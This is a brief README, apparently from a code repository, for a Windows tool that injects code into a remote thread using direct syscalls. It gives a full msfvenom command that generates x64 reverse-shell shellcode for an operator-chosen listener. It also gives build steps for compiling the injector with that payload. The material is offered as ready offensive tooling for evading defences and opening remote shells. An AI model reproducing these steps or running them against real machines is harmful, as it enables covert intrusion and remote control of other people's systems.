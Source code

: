 ## Remote Thread Injection Using Direct Syscalls
* create your shellcode and replace it in main.c:
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

* Add all of the file to a Visual Studio Project
* Enable MASM in your Visual Studio Project
* Change Project Charset if it's UNICODE
* Compile it
